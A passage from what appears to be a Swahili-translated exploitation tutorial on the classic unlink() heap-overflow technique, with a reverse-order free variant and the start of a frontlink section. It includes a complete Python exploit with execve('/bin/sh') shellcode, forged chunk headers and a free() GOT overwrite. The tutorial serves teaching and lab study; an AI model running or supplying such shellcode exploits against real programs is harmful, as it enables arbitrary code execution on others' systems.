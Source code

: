 Kwa kuita unlink() itatumia kama P->fd data za kwanza za kipande cha 2 hivyo anwani itawekwa ambapo unataka kubadilisha - 12 (kwa sababu katika FD->bk itaongeza 12 kwa anwani iliyohifadhiwa kwenye FD). Na kwenye anwani hiyo itaingiza anwani ya pili inayopatikana kwenye kipande cha 2, ambayo itakuwa anwani ya shellcode (P->bk bandia).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12bytes ya kujaza**

**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack("\<I”, 0xfffffff0) #Inahitajika bit inayoonyesha kuwa kipande kilichotangulia ni huru iwe 1**

**fake\_size = pack("\<I”, 0xfffffffc) #-4, ili kufikiri "size" ya kipande cha 3 iko nyuma kwa bytes 4 (inamaanisha prev\_size) kwani hapa ndipo inatazama ikiwa kipande cha 2 kiko huru**

**addr\_sc = pack("\<I", 0x0804a008 + 8) #Kwenye mzigo mwanzoni tutaweka 8bytes ya kujaza**

**got\_free = pack("\<I", 0x08048300 - 12) #Anwani ya free() kwenye plt-12 (itakuwa anwani itakayobadilishwa ili shellcode iitwe mara ya pili free)**

**payload = "aaaabbbb" + shellcode + "b"\*(512-len(shellcode)-8) # Kama ilivyosemwa mzigo unaanza na 8 bytes ya kujaza kwa sababu**

**payload += prev\_size + fake\_size + got\_free + addr\_sc #Kipande cha 2 kinabadilishwa, got\_free inaelekeza kwenye mahali tutakapohifadhi anwani addr\_sc + 12**

**os.system("./8.3.o " + payload)**

**unset() ikiondoa kwa mpangilio wa nyuma (mchezo wa vita)**

Tunadhibiti vipande 3 vya mfululizo na vinatolewa kwa mpangilio wa nyuma wa kile kilichoreswa.

Katika kesi hiyo:

Kwenye kipande c tunaweka shellcode

Kipande a tunakitumia kubadilisha b ili size iwe na bit PREV\_INUSE iliyozimwa ili iweze kufikiri kipande a kiko huru.

Zaidi ya hayo, tunabadilisha kichwa cha b ili size iwe -4.

Kwa hivyo, programu itafikiri "a" iko huru na kwenye bin, hivyo itaita unlink() kuiondoa. Hata hivyo, kwa kuwa kichwa PREV\_SIZE ni -4. Itafikiri kwamba kipande cha "a" kwa kweli kinaanza kwenye b+4. Yaani, itafanya unlink() kwa kipande kinachoanza kwenye b+4, hivyo kwenye b+12 kutakuwa na pointer "fd" na kwenye b+16 kutakuwa na pointer "bk".

Kwa njia hii, tukiweka anwani ya shellcode kwenye bk na tukiweka anwani ya kazi "puts()" -12 kwenye fd tunapata payload yetu.

**Mbinu ya Frontlink**

Frontlink inaitwa wakati kitu kinapotolewa na hakuna vipande vyake vya jirani vilivyo huru, unlink() haitelewi bali frontlink() inaitwa moja kwa moja.
